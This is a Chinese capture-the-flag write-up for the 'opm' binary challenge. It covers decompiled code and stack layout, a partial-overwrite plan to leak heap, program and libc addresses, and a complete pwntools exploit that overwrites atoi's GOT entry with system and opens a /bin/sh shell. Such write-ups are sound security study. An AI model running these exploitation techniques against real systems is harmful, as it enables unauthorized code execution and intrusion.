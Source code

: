 #opm

强网杯的一道题目当时没做出来。。。
看着像一个堆题目其实是道栈溢出题目，涉及到堆的知识比较少
唯一的技巧点在于巧妙地利用**局部写**

    int (__fastcall **add())(__int64 a1)
    {
      _QWORD *v0; // rbx
      __int64 v1; // rbx
      size_t v2; // rax
      __int64 v3; // rbx
      char s[128]; // [rsp+0h] [rbp-1A0h]
      __int64 addr_of_struct[16]; // [rsp+80h] [rbp-120h]
      __int64 addr_of_name[17]; // [rsp+100h] [rbp-A0h]
      unsigned __int64 canary; // [rsp+188h] [rbp-18h]
    
      canary = __readfsqword(0x28u);
      v0 = (_QWORD *)operator new(0x20uLL);
      init_struct((__int64)v0);
      addr_of_struct[0] = (__int64)v0;
      *v0 = say;
      puts("Your name:");                           // func say
                                                    // name_addr->name(heap)
                                                    // len(name)
                                                    // punch
      gets(s);
      v1 = addr_of_struct[0];
      *(_QWORD *)(v1 + 16) = strlen(s);
      v2 = strlen(s);
      addr_of_name[0] = (__int64)malloc(v2);
      strcpy((char *)addr_of_name[0], s);
      *(_QWORD *)(addr_of_struct[0] + 8) = addr_of_name[0];
      puts("N punch?");
      gets(s);
      v3 = addr_of_struct[0];
      *(_DWORD *)(v3 + 0x18) = atoi(s);
      say(addr_of_struct[0]);
      return (int (__fastcall **)(__int64))addr_of_struct[0];
    }
两次gets都有溢出

    -00000000000001A0 s               db 128 dup(?)
    -0000000000000120 addr_of_struct  dq 16 dup(?)
    -00000000000000A0 addr_of_name    dq 17 dup(?)
    -0000000000000018 canary          dq ?
大致栈结构就这样
由于没有free函数，所以对于堆的利用比较局限
思路就是首先将 role1的结构体写到一个地址，然后把role2的结构体写到role1的name字段（堆上），之后把role2的地址也指向role1地址，这样就把role1的name打印出来，于是就可以泄露堆地址了。
由于事先我们并不知道地址是什么样，所以只能通过局部写改写地址的低字节
将role1的低字节覆盖为0010，而后添加role2，先通过第一次溢出把他的结构体搞到role1的name字段，这里可以通过把低字节改写成00做到（需要实现布局好堆结构，具体可以gdbattach调一下），而后再把role2地址改到0010
泄露完之后我们就可以将role指针随意的构造为堆上的地址了，我们最终的目的是把got表修改掉，这样就需要知道got地址和libc地址
泄露got地址主要就是构造一个伪造堆块，使他的name字段指向say函数，这样泄露地址就可以算出程序加载基地址，从而泄露got
libc同样道理
这里需要注意strlen函数以0结尾，所以我们构造的伪造role长度只能为0x10，也就是说会改变下一个堆块的头部（topsize），需要维护好topchunk
改写的话就利用第二次溢出，把地址写到len字段，改写完成
这里可以选择atoi或者strlen
exp：

    from pwn import *
    context.log_level = 'debug'
    io = process('./opm')
    elf = ELF('opm')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(name,punch):
    	io.recvuntil('xit')
    	io.sendline('A')
    	io.recvuntil('name:')
    	io.sendline(name)
    	io.recvuntil('?')
    	io.sendline(punch)
    def show():
    	io.recvuntil('xit')
    	io.sendline('S')
    
    add(0x70*'A','1')
    add(0x80*'B'+'\x10','1')
    add(0x80*'C','A'*0x80+'\x10')
    io.recvuntil('B'*0x8)
    leak = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(leak))
    
    func_addr = leak - 0x30
    fake_chunk_addr = leak + 0xc0
    fake_chunk = 'A'*0x8+p64(func_addr)
    payload = str(0x20171).ljust(0x80,'A') + p64(fake_chunk_addr)
    add(fake_chunk,payload)
    io.recvuntil('<')
    func = u64(io.recvline()[0:6].ljust(8,'\x00'))
    log.success(hex(func))
    proc_addr = func - 0xb30
    atoi_got = proc_addr + elf.got['atoi']
    fake_chunk = 'a'*0x8 + p64(atoi_got)
    payload = str(0x20171 - 0x50).ljust(0x80,'A') + p64(leak + 0xc0 +0x50)
    add(fake_chunk,payload)
    io.recvuntil('<')
    libc_base = u64(io.recvline()[0:6].ljust(8,'\x00')) - libc.symbols['atoi']
    log.success(hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.success(hex(system))
    add('s3cunDa',str(system).ljust(0x80,'A')+p64(atoi_got - 0x18))
    add('s3cunDa','/bin/sh')
    io.interactive()

这么简单题我为什么那时候没做出来。。。